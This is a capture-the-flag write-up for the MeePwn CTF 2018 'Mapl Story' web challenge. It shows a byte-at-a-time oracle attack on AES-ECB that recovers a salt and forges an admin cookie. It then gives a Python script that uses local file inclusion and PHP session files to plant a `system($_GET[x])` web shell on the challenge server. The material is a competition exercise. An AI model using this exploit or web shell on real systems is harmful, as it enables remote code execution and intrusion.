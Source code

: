 # Meepwn CTF 2018 Quals : Mapl Story

## Write-up
### 1. Leak Salt using hash length extension and LFI
After auditing the source code, I thought I can get the salt value using hash length extension attack and can check session file like “/?page=/var/lib/php/sessions/sess_[phpsessid] ” using LFI.

```php
function encryptData($data,$salt,$key)
{
        $encrypt=openssl_encrypt($data.$salt,"AES-128-ECB",$key);
        $raw=base64_decode($encrypt);
        $final=implode(unpack("H*", $raw));
        return $final;
}
```

```
"a" * 15 ==> 7d283b2b1ba95dce98028b4050d05342
"a" * 15 + "m" ==> 7d283b2b1ba95dce98028b4050d05342

"a" * 14 ==> 81884247e3b2d20e116693dbecd18350
"a" * 14 + "ms" ==> 81884247e3b2d20e116693dbecd18350 

"a" * 13 ==> 307e8207ca459a81410ce7c65f9ff922
"a" * 13 + "ms_" ==> 307e8207ca459a81410ce7c65f9ff922

"a" * 12 ==> a59a592e200aa967a954c3345f09e218
"a" * 12 + "ms_g" ==> a59a592e200aa967a954c3345f09e218

"a" * 11 ==> 3806f308e7d2da55cdf4d069f6763c76
"a" * 11 + "ms_g0" ==> 3806f308e7d2da55cdf4d069f6763c76
....
.....
== > ms_g00d_0ld_g4m3
```
After finding the salt value, and I was able to get the cookie(role) of admin.

### 2. make webshell at session file
Since we know about salt value, we could get upload directory path. 
Because of this, we could do RCE attack with LFI. But there were a length limit, so we used session file by writing 1 byte.

```py
from requests import get, post

url = "http://178.128.87.16/index.php?page=character.php"
Cookie = "PHPSESSID=3bjdg4g23pptdiauqio2o41i33; _role=a2ae9db7fd12a8911be74590b99bc7ad1f2f6ccd2e68e44afbf1280349205054"
headers = {
    "Cookie": Cookie,
    "Content-Type": "application/x-www-form-urlencoded"
}
payload = "<?php system($_GET[x]); ?>"
start = True
for x in payload:
    if start == True:
        data = {
            "command": "<?=$$key[a]='{}';".format(x),
            "submit": "Send"
        }
        start=False
    else:
        data = {
            "command": "<?=$$key[a].='{}';".format(x),
            "submit": "Send"
        }
    c = post(url, headers=headers, data=data)
    c = get('http://178.128.87.16/?page=/var/www/html/upload/92ee8e47bbbb715348961650c7743fb4/command.txt&_SESSION', headers=headers)
    print c.text
```

Finally, we got a web shell and got a FLAG.

> flag : MeePwnCTF{__Abus1ng_SessioN_Is_AlwAys_C00L_1337!___}


